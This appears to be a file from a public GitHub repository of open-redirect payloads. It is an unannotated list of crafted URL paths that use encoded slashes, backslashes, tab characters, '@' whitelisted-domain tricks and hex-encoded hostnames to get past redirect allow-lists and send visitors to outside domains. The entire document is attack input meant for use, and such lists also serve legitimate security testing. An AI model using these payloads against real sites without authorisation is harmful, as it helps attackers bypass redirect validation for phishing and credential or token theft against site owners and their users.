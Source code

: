## source: https://github.com/payloadbox/open-redirect-payload-list
/%09/example.com
/%2f%2fexample.com
/%2f%2f%2fbing.com%2f%3fwww.omise.co
/%2f%5c%2f%67%6f%6f%67%6c%65%2e%63%6f%6d/
/%5cexample.com
/%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
/.example.com
//%09/example.com
//%5cexample.com
///%09/example.com
///%5cexample.com
////%09/example.com
////%5cexample.com
/////example.com
/////example.com/
////\;@example.com
////example.com/
////example.com/%2e%2e
////example.com/%2e%2e%2f
////example.com/%2f%2e%2e
////example.com/%2f..
////example.com//
///\;@example.com
///example.com
///example.com/
//google.com/%2f..
//www.whitelisteddomain.tld@google.com/%2f..
///google.com/%2f..
///www.whitelisteddomain.tld@google.com/%2f..
////google.com/%2f..
////www.whitelisteddomain.tld@google.com/%2f..
https://google.com/%2f..
https://www.whitelisteddomain.tld@google.com/%2f..
/https://google.com/%2f..
/https://www.whitelisteddomain.tld@google.com/%2f..
//www.google.com/%2f%2e%2e
//www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
///www.google.com/%2f%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
////www.google.com/%2f%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
https://www.google.com/%2f%2e%2e
https://www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
/https://www.google.com/%2f%2e%2e
/https://www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
//google.com/
//www.whitelisteddomain.tld@google.com/
///google.com/
///www.whitelisteddomain.tld@google.com/
////google.com/
////www.whitelisteddomain.tld@google.com/
https://google.com/
https://www.whitelisteddomain.tld@google.com/
/https://google.com/
/https://www.whitelisteddomain.tld@google.com/
//google.com//
//www.whitelisteddomain.tld@google.com//
///google.com//
///www.whitelisteddomain.tld@google.com//
////google.com//